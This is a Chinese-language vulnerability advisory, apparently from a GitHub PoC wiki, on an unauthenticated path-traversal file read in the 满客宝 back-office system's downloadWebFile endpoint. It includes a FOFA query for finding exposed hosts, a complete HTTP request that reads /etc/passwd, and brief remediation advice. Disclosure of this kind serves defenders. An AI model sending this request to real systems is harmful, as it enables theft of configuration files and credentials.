

# 满客宝后台管理系统 downloadWebFile 任意文件读取漏洞(XVE-2024-18926)

# 漏洞描述

满客宝后台管理系统 downloadWebFile 接口存在存在任意文件读取漏洞，未经身份验证的远程攻击者可通过该漏洞读取系统配置文件，获取XXL-JOB账户密码，若XXL-JOB部署在公网，可能会进一步导致后台远程命令执行。

影响版本

满客宝后台管理系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 中 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="满客宝后台管理系统"

POC/EXP：

GET /base/api/v1/kitchenVideo/downloadWebFile.swagger?fileName=&ossKey=/../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate

# 修复方案

1. 关闭互联网暴露面或接口设置访问权限

   升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
